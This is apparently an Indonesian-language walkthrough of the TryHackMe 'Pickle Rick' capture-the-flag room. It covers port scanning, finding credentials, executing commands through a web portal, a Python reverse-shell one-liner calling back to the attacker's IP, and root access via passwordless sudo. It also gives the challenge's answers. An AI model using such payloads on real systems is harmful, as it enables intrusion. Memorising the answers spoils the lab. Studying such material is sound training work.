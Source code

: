 # CTF - Pickle Rick
- TryHackMe Challenge: https://tryhackme.com/room/picklerick
- IP Machine: 10.10.172.106

# Nmap Report
- Lakukan port scanning dengan tool `nmap`
```sh
nmap -sV -A <IP Machine>
```
- Berikut ini adalah hasil port scanning
```sh
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -A 10.10.172.106
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-29 19:44 EDT
Nmap scan report for 10.10.172.106
Host is up (0.20s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f6bbf9e8176b483c616e7fe7b3dc6ad2 (RSA)
|   256 9d8527a53623d37ba397cb9f308841ae (ECDSA)
|_  256 cc423adf1180534d8445e1357c2cac92 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=7/29%OT=22%CT=1%CU=36558%PV=Y%DS=2%DC=T%G=Y%TM=64C5A47
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=103%GCD=1%ISR=10E%TI=Z%II=I%TS=8)SEQ(SP=1
OS:04%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O
OS:3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT       ADDRESS
1   193.06 ms 10.8.0.1
2   195.02 ms 10.10.172.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.35 seconds
```

## Gobuster
- Lakukan pencarian direktori web tersembunyi dengan tool `gobuster`
```sh
gobuster dir -u http://<IP Machine> -w /usr/share/dirb/wordlists/commont.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%201.JPG)

## Content Discovery
- Buka halaman web `http://<IP_machine>` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%202.JPG)

- Tekan **Ctrl+U** atau klik kanan pada halaman lalu pilih **View Page Source** untuk menampilkan source code halaman. Disini ditemukan informasi bahwa usernamenya adalah **R1ckRul3s**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%203.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%204.JPG)

- Buka halaman `http://<IP_machine>/robots.txt` di tab baru. Pada halaman ini ditemukan sebuah password

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%205.JPG)

```sh
username: R1ckRul3s
password: Wubbalubbadubdub
```

## Gain Access
- Lakukan login ke halaman `http://<IP_machine>/login.php` dengan username dan password yang ditemukan diatas

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%206.JPG)

- Setelah login berhasil, halaman langsung di redirect ke halaman portal.php

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%207.JPG)

- Jika kita ketik `ls` lalu tekan Execute maka diperoleh daftar file sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%208.JPG)

- Terdapat sebauh file `Sup3rS3cretPick13Ingred.txt` disana. Jika kita ketik perintah `cat Sup3rS3cretPick13Ingred.txt` lalu tekan tombol **Execute** maka muncul pesan bahwa command tersebut telah di block sehingga kita tidak bisa membaca isi file tersebut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%209.JPG) 

- Kita bisa memanfaatkan command reverse shell untuk bisa masuk ke dalam shell server. Untuk itu kita harus membuat listener netcat terlebih dahulu di terminal dan kita atur di port `4444`. Anda juga bisa menggunakan port lain
```sh
nc -lnvp 4444
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2010.JPG)

- Gunakan Payload berikut untuk menjalankan reverse shell. Ganti **10.8.142.62** dengan IP tun0 pada komputer yang anda gunakan
```sh
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.142.62",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```
- Copy payload diatas dan paste ke halaman `http://<IP_machine>/portal.php` lalu tekan tombol **Execute**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2011.JPG)

- Netcat berhasil terkoneksi dan masuk sebagai user **www-data**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2012.JPG)

- Setelah berhasil masuk ke dalam shell kita bisa membaca isi file **Sup3rS3cretPick13Ingred.txt**
```sh
cat Sup3rS3cretPick13Ingred.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2013.JPG)

- Di directory **/home** ditemukan home directory **rick**. Navigasi ke directory **/home/rick** dan disana ditemukan file **second ingredients**
```sh
cd /home/rick
cat 'second ingredients'
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2014.JPG)

## Privilege Escalation
- Final ingredient sepertinya ditaruh di direktori **/root**. Untuk bisa mengakses direktori tersebut diperlukan akses user root sehingga kita melakukan privilege escalation.
- Untuk mendapatkan akses user root, kita perlu mengubah shell menjadi terminal interaktif dengan perintah dibawah ini. Setelah kita coba, ternyata kita mengakses user root hanya dengan perintah `sudo bash` tanpa memasukkan password
```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo bash
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2015.JPG)

- Setelah berhasil masuk sebagai user root, navigasi ke directory **/root** maka disini ditemukan file **3rd.txt** yang berisi final ingredient. Buka file tersebut dengan perintah `cat 3rd.txt`
```sh
cd /root
cat 3rd.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Pickle%20Rick/assets/pr%2016.JPG)

## Pertanyaan dan Jawaban:

- **Pertanyaan:** What is the first ingredient that Rick needs?
```sh
mr. meeseek hair
```

- **Pertanyaan:** What is the second ingredient in Rick’s potion?
```sh
1 jerry tear
```

- **Pertanyaan:** What is the last and final ingredient?
```sh
fleeb juice
```